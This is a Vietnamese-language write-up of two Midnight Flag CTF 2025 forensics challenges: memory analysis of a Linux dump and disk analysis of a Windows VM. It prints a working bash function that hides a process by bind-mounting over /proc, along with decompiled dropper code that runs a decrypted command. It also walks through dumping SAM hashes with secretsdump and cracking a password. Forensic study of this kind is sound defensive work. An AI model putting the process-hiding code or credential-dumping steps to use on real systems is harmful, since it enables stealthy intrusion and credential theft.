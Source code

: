 # _Midnight Flag CTF 2025_

## _APT 1337_

- Liệt kê tiến trình:
> linux.psaux.PsAux
> 
> linux.pslist.PsList

- Check file trong RAM (khá tương tự filescan của windows)
> linux.linux.pagecache.InodePages

Dùng strings grep ra được lấy được 1 số thông tin hữu ích sau:
```
hide() {
    [[ -L /etc/mtab ]] && { cp /etc/mtab /etc/mtab.bak; mv /etc/mtab.bak /etc/mtab; }
    _pid=${1:-$$}
    [[ $_pid =~ ^[0-9]+$ ]] && { mount -n --bind /dev/shm /proc/$_pid && echo "[THC] PID $_pid is now hidden"; return; }
    local _argstr
    for _x in "${@:2}"; do _argstr+=" '${_x//\'/\'\"\'\"\'}'"; done
    [[ $(bash -c "ps -o stat= -p \$\$") =~ \+ ]] || exec bash -c "mount -n --bind /dev/shm /proc/\$\$; exec \"$1\" $_argstr"
    bash -c "mount -n --bind /dev/shm /proc/\$\$; exec \"$1\" $_argstr"
}

hide /usr/sbin/daemon &


950     949     sudo    AES_KEY 7557a272bacc4186952a567db00ae817704d059ecfdc8e630c04d8aabecd1e04
950     949     sudo    AES_IV  068131ad1d5c0c1516fce836d510ccce
```

Thấy được dòng cuối thực hiện `hide /usr/sbin/daemon`, khả nghi nên dùng `linux.linux.pagecache.InodePages` để tìm file trong ram

`python3 /home/kali/volatility3/vol.py -f challenge.lime linux.pagecache.InodePages --find /usr/sbin/daemon --dump`

Dùng ida để reverse

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _QWORD *v4; // rax
  __int64 v5; // rbx
  __int64 v6; // rbx
  __int64 v7; // rbx
  __int64 v8; // rbx
  __int64 v9; // rbx
  __int64 v10; // rbx
  __int64 v11; // rbx
  __int64 v12; // rbx
  __int64 v13; // rbx
  int fd; // [rsp+0h] [rbp-4C0h]
  int v15; // [rsp+4h] [rbp-4BCh]
  unsigned __int64 i; // [rsp+8h] [rbp-4B8h]
  char *v17; // [rsp+10h] [rbp-4B0h]
  char *v18; // [rsp+18h] [rbp-4A8h]
  time_t v19; // [rsp+20h] [rbp-4A0h]
  tm tp; // [rsp+30h] [rbp-490h] BYREF
  _BYTE v21[16]; // [rsp+70h] [rbp-450h] BYREF
  char v22[32]; // [rsp+80h] [rbp-440h] BYREF
  char command[1032]; // [rsp+A0h] [rbp-420h] BYREF
  unsigned __int64 v24; // [rsp+4A8h] [rbp-18h]

  v24 = __readfsqword(0x28u);
  fd = open("/tmp/.dat", 66, 384LL);
  if ( fd < 0 )
    return 1;
  if ( ftruncate(fd, 152LL) )
    return 1;
  zXb4W = (__int64)mmap(0LL, 0x98uLL, 3, 1, fd, 0LL);
  if ( zXb4W == -1 )
    return 1;
  v4 = (_QWORD *)zXb4W;
  v5 = qword_4028;
  *(_QWORD *)zXb4W = original_data;
  v4[1] = v5;
  v6 = qword_4038;
  v4[2] = qword_4030;
  v4[3] = v6;
  v7 = qword_4048;
  v4[4] = qword_4040;
  v4[5] = v7;
  v8 = qword_4058;
  v4[6] = qword_4050;
  v4[7] = v8;
  v9 = qword_4068;
  v4[8] = qword_4060;
  v4[9] = v9;
  v10 = qword_4078;
  v4[10] = qword_4070;
  v4[11] = v10;
  v11 = qword_4088;
  v4[12] = qword_4080;
  v4[13] = v11;
  v12 = qword_4098;
  v4[14] = qword_4090;
  v4[15] = v12;
  v13 = qword_40A8;
  v4[16] = qword_40A0;
  v4[17] = v13;
  v4[18] = qword_40B0;
  v17 = getenv("AES_KEY");
  v18 = getenv("AES_IV");
  if ( !v17 || !v18 )
    return 1;
  if ( (unsigned int)vNh3Z(v17, v22, 32LL) != 32 || (unsigned int)vNh3Z(v18, v21, 16LL) != 16 )
    return 1;
  v19 = time(0LL);
  memset(&tp, 0, 20);
  memset(&tp.tm_wday, 0, 32);
  tp.tm_year = 1100;
  tp.tm_mday = 1;
  if ( v19 < mktime(&tp) )
  {
    while ( 1 )
LABEL_20:
      sleep(1u);
  }
  for ( i = 0LL; i <= 0x97; ++i )
    *(_BYTE *)(zXb4W + i) ^= 0xAAu;
  v15 = pTq7L(zXb4W, 152LL, v22, v21, command);
  if ( v15 >= 0 )
  {
    command[v15] = 0;
    system(command);
    goto LABEL_20;
  }
  return 1;
}
```

Tạo file `tmp/.dat` chứa dữ liệu mã hóa, mình sẽ thực hiện tìm `tmp/.dat` trong ram

`python3 /home/kali/volatility3/vol.py -f challenge.lime linux.pagecache.InodePages --find /tmp/.dat --dump`

![image](images/img1.png)

Decrypt bằng cách xor với `0xAA` sau đó là AES

![image](images/img2.png)


HẾT !!

## Blackdoor

Nếu mount trực tiếp vào `virtual box` thì cần pass đăng nhập nhưng có thể dùng kali để mount và lấy được thông tin `SAM`, `SECURITY` => mật khẩu đăng nhập windows

### Mount

Nhận được 1 file `.ova` thay extension thành `.tar` rồi extract ra được 1 file `.vmdk`. Dùng file vmdk này để mount

https://github.com/fox-it/dissect

`sudo /home/kali/.local/bin/target-mount Blackdoor-disk001.vmdk ~/Downloads/blackdoor/mount`

Dùng tool này để trích xuất thông tin login

https://github.com/fortra/impacket/blob/master/examples/secretsdump.py

![image](images/img3.png)

Lấy NTLM hash của John đem crack 

Pass: `1dodgeneon`

Đăng nhập vào check trong autoruns là thấy được 1 schedule task trông khả nghi

![image](images/img4.png)

Tên file đúng phải là `mscms.dll`, đây là cách ngụy trang của malware

=> malware

Check md5

![image](images/img5.png)

Thấy chương trình được đặt lịch với tên `Calibration Loader`, check trong `Task Scheduler`

![image](images/img6.png)

Check ID

![image](images/img7.png)

Done.

